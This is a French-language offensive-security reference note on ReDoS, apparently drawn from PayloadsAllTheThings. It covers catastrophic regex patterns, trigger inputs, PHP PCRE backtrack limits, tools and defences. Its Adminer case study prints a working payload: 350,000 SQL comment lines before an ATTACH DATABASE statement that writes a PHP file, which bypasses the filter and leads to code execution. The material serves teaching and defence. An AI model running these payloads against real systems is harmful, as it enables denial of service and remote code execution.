

# 🔤 Regular Expression (ReDoS)

> [!info] **En 1 phrase**
> ReDoS (Regular Expression Denial of Service) = une **regex catastrophique** combinée à une entrée hostile provoque une **explosion de backtracking** → CPU saturé, service bloqué ou crash, DoS.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Regular%20Expression/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Avec des patterns du type **groupement + répétition imbriquée** (`(a+)+`, `(a|aa)+`, `(.*a){x}`), un input qui **échoue à la fin** (ex : 20 × `a` + `!`) force le moteur à re-tester toutes les manières de découper la chaîne avant de conclure — complexité exponentielle.

---

## 😈 Evil Regex

> Une regex vulnérable contient :
> - un **groupement avec répétition** (`(...)+`),
> - et, à l'intérieur du groupe répété : une **répétition** OU une **alternance qui se chevauche**.

```regex
(a+)+
([a-zA-Z]+)*
(a|aa)+
(a|a?)+
(.*a){x}        # pour x > 10
```

```text
# Entrée déclencheuse : 20 'a' suivis d'un '!'
aaaaaaaaaaaaaaaaaaaa!

# Le moteur essaie toutes les façons de grouper les 'a'
# avant de constater l'échec final sur '!' → explosion de backtracking
```

---

## ⏱️ Backtrack Limit (PHP/PCRE)

| Paramètre | Défaut | Note |
|---|---|---|
| `pcre.backtrack_limit` | 1 000 000 | 100 000 pour PHP < 5.3.7 |
| `pcre.recursion_limit` | 100 000 | |
| `pcre.jit` | 1 | |

```php
// Forcer un ReDoS → preg_match retourne false (épuisement du backtracking)
$pattern = '/(a+)+$/';
$subject = str_repeat('a', 1000) . 'b';

if (preg_match($pattern, $subject)) {
    echo "Match found";
} else {
    echo "No match";
}
```

> [!warning] ⚠️ **Le bug logique**
> `preg_match()` retourne `false` (erreur) OU `0` (aucun match). Une app qui traite `0` et `false` **de la même façon** permet de **neutraliser un contrôle regex** en provoquant l'épuisement — le check devient une simple formalité.

---

## 🎯 Cas réel : Adminer SQLite RCE

> Adminer filtrait les requêtes SQLite commençant par `ATTACH` :

```php
$pattern = "~^(?:\\s|/\\*[\s\S]*?\\*/|(?:#|--)[^\n]*\n?|--\r?\n)*+ATTACH\\b~i";
if (preg_match($pattern, $query, $match)) {
    die('error');
}
```

> Le check traitait `0` (pas de match) et `false` (échec d'évaluation) comme une requête **autorisée**. Un attaquant prefixe `ATTACH` avec des **centaines de milliers de commentaires vides** → backtracking épuisé → `preg_match` retourne `false` → la requête bloquée est exécutée.

```php
<?php
$payload = <<<'SQL'
ATTACH DATABASE 'lol.php' AS lol;
CREATE TABLE lol.pwn (data text);
INSERT INTO lol.pwn (data) VALUES ('<?php phpinfo(); ?>');
SQL;

echo str_repeat("--\n", 350000) . $payload;
```

---

## 🛠️ Outils

```bash
# redos-detector (CLI + lib JS/Node/Deno) — teste la sûreté d'une regex avec certitude
npx redos-detector "/(a+)+$/"

# regexploit (Doyensec) — trouve les regex vulnérables au ReDoS
regexploit "pattern"

# devina.io/redos-checker — vérification en ligne
```

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Regex safe** | Éviter les groupements imbriqués répétés (`(a+)+`), l'alternance chevauchante (`(a|aa)+`) |
| **Passerelles sûres** | `(?>...)` (atomique), lookahead, `RE2/RE2-like` (backtracking linéaire), moteurs sans backtracking |
| **Limites d'entrée** | Longueur d'input bornée + limite de temps d'exécution sur le matching |
| **Détection** | `preg_match` retourne `false` ≠ `0` → vérifier `=== 1` ; logs d'erreurs PCRE |
| **Tests automatisés** | Outils ReDoS (regexploit, redos-detector) en CI sur les patterns |
| **Timeouts** | Wrap des regex dans un timeout process/worker si le moteur n'en a pas |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Payload de test universel**
> `aaaa...a!` (beaucoup de `a` + un caractère final qui force l'échec) — si la réponse est anormalement lente, la regex est suspecte.

> [!warning] ⚠️ **Pièges**
> - La **même regex** peut être sûre sur un moteur (RE2) et explosive sur un autre (PCRE, Java, JS, Python `re`) — toujours tester sur la **stack cible**.
> - Les commentaires SQL imbriqués (`/*...*/`) et les commentaires de ligne répétés sont d'excellents déclencheurs de backtracking.
> - L'impact n'est pas que le **DoS** : le retour `false` peut **désactiver une protection** (validation, WAF applicatif) → chain jusqu'au RCE.
> - Les regex sur des **entrées très courtes mais contrôlées** suffisent souvent (ex : un token de reset).

---

## 🔗 Liens

- [[Denial of Service|💥 DoS]]
- [[Injection SQL|💾 SQLi]]
- [[CVE Exploits|📦 CVE Exploits]]
- → [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Regular Expression](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Regular%20Expression/README.md)
